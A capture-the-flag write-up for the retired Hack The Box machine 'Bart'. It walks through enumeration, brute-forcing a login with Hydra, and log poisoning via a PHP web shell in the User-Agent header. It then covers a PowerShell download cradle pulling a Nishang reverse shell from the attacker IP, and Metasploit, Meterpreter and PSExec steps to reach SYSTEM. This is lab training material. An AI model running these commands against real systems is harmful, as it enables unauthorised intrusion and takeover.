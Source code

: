# Bart

This is the write-up for the box Bart that got retired at the 14th July 2018.
My IP address was 10.10.14.19 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.81    bart.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bart.nmap 10.10.10.81
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

The web page wants to automatically forward to _forum.bart.htb_ so after putting that into the _/etc/hosts_ file, the forwarding works.
It is built with **WordPress**, but all the default WordPress pages in the source are removed.

There are some potential usernames on the homepage, when looking at the mail addresses of _"Our Team"_ and one in the _"New employee"_ news:
- Samantha Brown _(s.brown)_
- Daniel Simmons _(d.simmons)_
- Robert Hilton _(r.hilton)_
- Daniella Lamborghini _(d.lamborghini)_

In the HTML source is a block of code commented out:
```markdown
(...)
<div class="name">Harvey Potter</div>
<div class="pos">Developer@BART</div>
(...)
<li><a class="mail" href="mailto:h.potter@bart.htb" target="_blank"><i class="fa">M</i></a></li>
(...)
```

The user _h.potter_ is the developer of the website and another potential username.

Lets search for hidden directories on the IP with **Gobuster**:
```markdown
gobuster -u http://10.10.10.81 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s 204,301,302,307
```

It finds the directory _/forum_ which is the site from before and the directory _/monitor_ with a login form:

![Monitor login form](https://kyuu-ji.github.io/htb-write-up/bart/bart_web-1.png)

### Getting Access to Development Tools

When using the _"Forgot password"_ feature, it asks for a username and after providing an incorrect one, it responds with _"The provided username could not be found"_ which can be used as a way to enumerate valid usernames.

After trying different variations of the developers name _(Harvey Potter)_, the username _harvey_ exists as the login form responded that it will send an email to reset the password.
As the request is protected with a **CSRF-token**, brute-forcing the password with tools is difficult.
In this case manually trying out different easy passwords work and the password of the user is his last name:
> potter

The login wants to forward to _monitor.bart.htb_, so also putting that into the _/etc/hosts_ file and the forwarding works.

On _Servers_ there is one entry for _internal-01.bart.htb_ that has to be put into the _/etc/hosts_ file to get to it:

![Server monitor](https://kyuu-ji.github.io/htb-write-up/bartssss/bart_web-2.png)

It forwards to another login form with the title _"[DEV] Internal Chat Login Form"_:

![Chat login form](https://kyuu-ji.github.io/htb-write-up/bart/bart_web-3.png)

The default credentials from before don't work, but luckily this is not protected with a **CSRF-token** and can be brute-forced with **Hydra**:
```markdown
hydra -l harvey -P /usr/share/wordlists/metasploit/common_roots.txt internal-01.bart.htb http-form-post "/simple_chat/login.php:uname=^USER^&passwd=^PASS^&submit=Login:Password"
```

After a while the password for the username _harvey_ in this login form is found:
> Password1

It forwards to a chat program:

![Chat application](https://kyuu-ji.github.io/htb-write-up/bart/bart_web-4.png)

In the HTML source is a path in which this program seems to log into:
```markdown
(...)
xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
(...)
```

It is possible to browse to this path, but it shows nothing.
By changing the _filename_ parameter to _log.php_, the log file is readable via a **Local File Inclusion** and it logs our User-Agent:
```markdown
http://internal-01.bart.htb/log/log.php?filename=log.php&username=harvey
```
```markdown
[2021-01-01 21:25:29] - harvey - Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
```

### Log Poisoning

Lets send this to a proxy tool like **Burpsuite** to modify the HTTP request.
By changing our User-Agent to PHP code, it is possible to execute arbitrary code:
```markdown
GET /log/log.php?filename=log.php&username=harvey HTTP/1.1
Host: internal-01.bart.htb
User-Agent: <?php system($_REQUEST['test']); ?>
```
```markdown
# Response

system(): Cannot execute a blank command in
C:\inetpub\wwwroot\internal-01\log\log.php</b>
```

This is known as **Log Poisoning** and now it accepts code with the _test_ parameter, we created:
```markdown
GET /log/log.php?filename=log.php&username=harvey&test=whoami HTTP/1.1
Host: internal-01.bart.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
```
```markdown
# Response

[2021-01-01 21:31:54] - harvey - nt authority\iusr
```

It shows the result of `whoami`, so command execution works and uploading files and getting a reverse shell connection should be possible.
The _shell.ps1_ file is the script _Invoke-PowerShellTcp.ps1_ from the **Nishang scripts** with the following line at the bottom:
```markdown
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 9001
```

Uploading the file:
```markdown
GET /log/log.php?filename=log.php&username=harvey&test=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.19/shell.ps1')"
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell connection as _NT Authority\iusr_.

This box is a 64-bit machine but our process runs as a 32-bit process:
```markdown
\[environment]::Is64BitOperatingSystem
True
\[environment]::Is64BitProcess
False
```

Lets run **PowerShell from SysNative** to get a 64-bit process:
```markdown
GET /log/log.php?filename=log.php&username=harvey&test=C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.19/shell.ps1')"
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell connection as _NT Authority\iusr_ in a 64-bit process.

## Privilege Escalation

To get an attack surface, it is recommended to run any **Windows Enumeration Script**:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.19/PowerUp.ps1')

Invoke-AllChecks
```

It found credentials in the **Autologon** registry entry:
```markdown
[*] Checking for Autologon credentials in registry...

DefaultDomainName    : DESKTOP-7I3S68E
DefaultUserName      : Administrator
DefaultPassword      : 3130438f31186fbaf962f407711faddb
```

Even though this looks like a **MD5 hash**, it is not, it is the actual password for the machine.
If we could run `RunAs`, it would be possible to run commands with higher privileges.

To connect to the box through **PSExec**, the port 445 (SMB) has to be open. This can be done by starting a **Meterpreter session** and forward the port to our local client.

Setup in **Metasploit**:
```markdown
use exploit/windows/smb/smb_delivery

set SHARE MyShare
set SRVHOST 10.10.14.19
set LHOST tun0
set LPORT 9002

exploit -j
```

Running the DLL file on the box to get a **Meterpreter** session:
```markdown
rundll32.exe \\10.10.14.19\MyShare\test.dll,0
```

Port forwarding port 445 (SMB):
```markdown
sessions -i 1

meterpreter > portfwd add -l 445 -p 445 -r 127.0.0.1
```

Running **Impackets PSexec** to connect to the box with the credentials:
```markdown
impacket-psexec Administrator:3130438f31186fbaf962f407711faddb@127.0.0.1
```

After running this, a shell session as _NT Authority\SYSTEM_ starts!
